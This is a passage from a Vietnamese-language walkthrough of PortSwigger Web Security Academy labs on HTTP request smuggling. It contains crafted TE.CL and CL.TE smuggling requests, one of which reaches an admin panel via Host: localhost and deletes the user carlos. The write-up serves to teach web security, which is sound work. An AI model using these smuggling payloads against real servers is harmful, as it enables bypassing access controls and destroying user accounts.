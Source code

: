 và chúng ta đã vào được trang quản tị giờ chỉ cần xóa người dùng carlos

```http!
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![image](https://hackmd.io/_uploads/SJhb2riTT.png)

## 8. Lab: Exploiting HTTP request smuggling to reveal front-end request rewriting

link: https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting

### Đề bài

![image](https://hackmd.io/_uploads/SJxKpBoTT.png)

### Phân tích

- Có bảng quản trị tại /admin, nhưng chỉ những người có địa chỉ IP 127.0.0.1 mới có thể truy cập được. Máy chủ frontend thêm tiêu đề HTTP vào các yêu cầu đến có chứa địa chỉ IP của chúng. Nó tương tự như X-Forwarded-Fortiêu đề nhưng có tên khác.

- Để giải quyết bài lab, mình cần chuyển một yêu cầu đến máy chủ back-end để lộ tiêu đề được máy chủ front-end thêm vào. Sau đó gửi yêu cầu đến máy chủ backend bao gồm tiêu đề đã thêm, truy cập bảng quản trị và xóa người dùng carlos.

- Ứng dụng có chức năng search. Khi search sẽ có một POST request chứa tham số search

![image](https://hackmd.io/_uploads/B1leoAsaa.png)

Duyệt đến /adminvà quan sát rằng bảng quản trị chỉ có thể được tải từ các tệp 127.0.0.1.

![image](https://hackmd.io/_uploads/BJl9sAopT.png)

Ta detect được đây là dạng CL.TE

```http!
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```
